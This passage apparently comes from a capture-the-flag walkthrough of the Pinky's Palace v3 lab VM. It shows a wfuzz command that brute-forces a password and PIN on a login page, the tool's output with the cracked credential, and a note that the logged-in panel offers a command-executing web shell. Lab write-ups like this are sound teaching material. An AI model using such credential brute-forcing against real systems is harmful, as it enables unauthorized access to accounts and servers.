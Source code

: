 Let's try again, using `pinkadmin` as the username. Let's hope I have better luck this time.

```
# wfuzz -w pwds.db -w pins.txt -d "user=pinkadmin&pass=FUZZ&pin=FUZ2Z" -t 50 --hw 6 http://192.168.30.129:4480/login.php
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://192.168.30.129:4480/login.php
Total requests: 1800000

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

1355850:  C=302      0 L	       0 W	      0 Ch	  "AaPinkSecaAdmin4467 - 55849"

Total time: 3549.939
Processed Requests: 1800000
Filtered Requests: 1799999
Requests/sec.: 507.0508
```

Boom. I got it this time.

### PinkSec Control Panel

The credential is correct (`pinkadmin:AaPinkSecaAdmin4467:55849`). After logging in, I got redirected to this.

![69c8baee.png](/assets/images/posts/pinkys-palace-v3-walkthrough/69c8baee.png)

Sweet. I can execute commands through this web shell.

![b74e7a9e.png](/assets/images/posts/pinkys-palace-v3-walkthrough/b74e7a9e.png)
